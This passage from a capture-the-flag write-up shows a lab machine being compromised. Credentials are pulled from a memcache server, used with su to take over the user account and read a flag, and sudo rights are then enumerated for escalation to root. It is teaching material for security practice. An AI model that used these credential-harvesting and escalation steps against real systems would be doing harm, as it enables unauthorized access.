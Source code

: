```
END

get salary
VALUE salary 0 8
$100,000
END

get username
VALUE username 0 4
Orka
END

get password
VALUE password 0 15
REDACTED
END
```

The memcache server contained a password for the user Orka. I tried it with su and it was the correct password. I had my user, and the first flag. 

```bash
www-data@osboxes:/$ su Orka
Password: 

Orka@osboxes:~$ cd

Orka@osboxes:~$ cat user.txt
REDACTED
```

## Getting root

Once connected as a user, I then needed to get root. I checked for sudo permissions. 

```bash
Orka@osboxes:~$ sudo -l
[sudo] password for Orka:
Matching Defaults entries for Orka on osboxes:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User Orka may run the following commands on osboxes:
    (root) /home/Orka/Desktop/bitcoin


Orka@osboxes:~$ ls -la Desktop/bitcoin
-rwxr-xr-x 1 root root 7696 Jan 23 15:23 Desktop/bitcoin

Orka@osboxes:~$ file Desktop/bitcoin
Desktop/bitcoin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8280915d0ebb7225ed63f226c15cee11ce960b6b, not stripped
```
